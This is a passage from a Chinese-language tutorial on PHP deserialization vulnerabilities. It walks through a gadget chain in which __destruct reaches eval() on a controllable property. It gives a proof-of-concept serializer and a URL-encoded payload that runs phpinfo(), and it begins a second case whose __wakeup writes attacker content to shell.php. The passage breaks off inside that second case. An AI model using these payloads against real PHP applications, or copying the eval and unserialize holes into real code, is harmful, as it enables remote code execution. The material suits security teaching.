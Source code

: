 
这个可控点和上面的构造方法，联合一下，构造漏洞。这段代码两个类，一个`example`和`process`，在`process`中一个函数`close()`，其中危险函数`eval()`，但是参数不可控，无法执行任意代码。在`example`类中有一个`__destruct`析构函数，在脚本执行结束的时候执行，且调用可一个成员函数`shutdown()`，其作用是调用某个地方的`close()`函数。

可以去调用`process`类中的`close()`函数且`$pid`变量可控。

需要在反序列化的时候`$handle`是`process`类的一个实例化对象，`$pid`是想要执行的任意代码。

序列化代码 `POC`

`ser.php`

	<?php
	    class example{
	        public $handle;
	        function __construct()
	        {
	            $this->handle = new process();  // handle是类process 实例化的一个对象
	        }
	    }
	    class process {
	        public $pid;
	        function __construct()
	        {
	            $this->pid = 'phpinfo();';
	        }
	    }
	    $test = new example();
	    echo urlencode(serialize($test));

生成序列化之后的`payload`。

	O%3A7%3A%22example%22%3A1%3A%7Bs%3A6%3A%22handle%22%3BO%3A7%3A%22process%22%3A1%3A%7Bs%3A3%3A%22pid%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%7D

在可控参数上输入`payload`。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-4-11/36492604.jpg)

序列化的字符串进行反序列化时就会安照设定生成一个`example`类实例化，这时候已经反序列化之后了，按照`unser.php`文件中的代码逻辑执行，脚本结束后自动调用`__destruct()`函数，然后调用`shutdown()`函数，此时`$handle`为类`process`的类实例化对象，所以接下来会调用`process`的`close()`函数，`eval()`就会执行，其中的`pid`在`POC`代码中的构造函数中已经设置，造成了代码执行。

攻击线路称为`ROP(（Return-oriented programming）)`面向返回编程：

[Utilizing Code Reuse/ROP in PHP Application Exploits - owasp](https://www.owasp.org/images/9/9e/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)

>其核心思想是在整个进程空间内现存的函数中寻找适合代码片断（gadget），并通过精心设计返回代码把各个gadget拼接起来，从而达到恶意攻击的目的。构造ROP攻击的难点在于，我们需要在整个进程空间中搜索我们需要的gadgets，这需要花费相当长的时间。但一旦完成了“搜索”和“拼接”，这样的攻击是无法抵挡的，因为它用到的都是程序中合法的的代码，普通的防护手段难以检测。

参考[案例二](https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)

存在反序列化的代码

	<?php
	class secnote {
	    var $a = 'test';
	    function __wakeup(){    //反序列化自动调用
	        $fp = fopen("shell.php","w");
	        fwrite($fp,$this->a);
	        fclose($fp);
	        